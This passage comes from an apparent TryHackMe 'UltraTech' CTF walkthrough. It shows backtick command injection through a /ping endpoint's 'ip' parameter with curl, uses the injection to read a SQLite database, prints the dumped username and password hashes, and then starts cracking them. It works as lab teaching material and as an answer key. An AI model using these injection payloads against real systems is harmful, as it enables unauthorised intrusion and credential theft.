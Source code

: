 We might be able to guess the parameter. We had `login` and `password` as the parameters for `/auth`, so what does `ping` need as the parameter? An `ip` right? Let's test it out by pinging the localhost:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/UltraTech/files]
└─$ curl -s "http://$IP:8081/ping?ip=127.0.0.1"
PING localhost(localhost6.localdomain6 (::1)) 56 data bytes
64 bytes from localhost6.localdomain6 (::1): icmp_seq=1 ttl=64 time=0.020 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.020/0.020/0.020/0.000 ms
~~~

Nice! Now we know that the parameter is `ip`. Let's try to inject commands now. I tested `ls` as the command to inject and take a look at this:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/UltraTech/files]
└─$ curl -s 'http://10.10.165.168:8081/ping?ip=`ls`'
ping: utech.db.sqlite: Name or service not known
~~~

**Note: For the injection to work, you need to enter the whole machine ip, not just a shell variable that I usually use and it's because we are using single quotes.**

It seems like that the `ip` parameter is injectable and injecting the `ls` command revealed the name of the database.

Answer: `utech.db.sqlite`

### 3.2 - What is the first user's password hash?

Let's see if we can dump any content from the database. The `sqlite3` is not installed on the target machine, but we can dump the content using `cat` command:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/UltraTech/files]
└─$ curl -s 'http://10.10.165.168:8081/ping?ip=`cat+utech.db.sqlite`'
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
~~~

As you can see, we got two password hashes for `r00t` and `admin`:

* r00t:f357a0c52799563c7c7b76c1e7543a32
* admin:0d0ea5111e3c1def594c1684e3b9be84

Answer: `f357a0c52799563c7c7b76c1e7543a32`

### 3.3 - What is the password associated with this hash?

Now we need to crack the hashes. We can either use `john` or `hashcat` to perform a brute-force attack to crack the hashes or check the internet to see if these hashes have been cracked already. I used [crackstation](https://crackstation.net) and I was able to crack both of the hashes:
